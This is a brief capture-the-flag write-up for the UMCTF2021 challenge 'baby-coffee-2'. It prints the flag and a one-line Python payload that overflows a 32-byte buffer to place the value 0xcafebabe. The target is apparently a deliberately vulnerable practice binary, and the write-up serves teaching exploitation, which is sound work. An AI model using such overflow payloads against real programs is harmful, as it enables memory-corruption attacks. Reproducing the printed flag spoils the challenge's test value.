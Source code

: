 
# UMCTF2021 - baby-coffee-2

- Write-Up Author: RB916120 \[[MOCTF](https://www.facebook.com/MOCSCTF)\]

- Flag:MOCSCTF{d0_y0u_3nj0y_7h15_c7f_3v3n7?}

## **Question:**
baby-coffee-2
[baby-coffee-2](./bin/latte)
## Write up

---

overflow the buffer with 0xcafebabe
```python
import struct
print 'a'*32+struct.pack('I',0xcafebabe)
```